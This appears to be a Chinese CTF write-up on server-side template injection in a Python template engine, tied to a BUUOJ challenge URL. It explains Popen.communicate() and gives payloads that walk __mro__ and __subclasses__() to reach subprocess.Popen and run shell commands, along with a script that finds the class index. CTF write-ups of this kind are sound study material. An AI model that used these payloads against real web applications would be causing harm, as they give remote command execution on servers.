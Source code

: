 [参考地址](https://www.cnblogs.com/zhoug2020/p/5079407.html)

关于Popen.communicate()

communicate()：和子进程交互，发送和读取数据

> communicate()：和子进程交互，发送和读取数据

> 使用 subprocess 模块的 Popen 调用外部程序，如果 stdout 或 stderr 参数是 pipe，并且程序输出超过操作系统的 pipe size时，如果使用 Popen.wait() 方式等待程序结束获取返回值，会导致死锁，程序卡在 wait() 调用上 ulimit -a 看到的 pipe size 是 4KB，那只是每页的大小，查询得知 linux 默认的 pipe size 是 64KB。

使用 Popen.communicate()。这个方法会把输出放在内存，而不是管道里，

所以这时候上限就和内存大小有关了，一般不会有问题。而且如果要获得程序返回值，

可以在调用 Popen.communicate() 之后取 Popen.returncode 的值。

[参考地址](https://blog.csdn.net/carolzhang8406/article/details/22286913])

首先列出对象的属性，找到`object`的位置

```python
{{''.__class__}}
```

`<type 'str'>`

```python
{{''.__class__.__mro__}}
```

`(<type 'str'>, <type 'basestring'>, <type 'object'>)`

```python
{{''.__class__.__mro__[2].__subclasses__()}}
```

然后找到`<class 'subprocess.Popen'>`的下标位置

```python
import requests
import html
import re

url = "http://f152e458-fb49-4008-8136-2d0add19885e.node5.buuoj.cn:81?search={{''.__class__.__mro__[2].__subclasses__()【258}}"

resp = requests.get(url)
content = html.unescape(resp.text)

res = re.findall("<h3>(.*?)</h3>", content)
r = res[0].split(',')
for i, v in enumerate(r):
    if 'subprocess.Popen' in v:
        print(i)
```

运行结果为`258`

```url
?search={{''.__class__.__mro__[2].__subclasses__()[258]('ls',shell=True,stdout=-1).communicate()[0].strip()}}
```
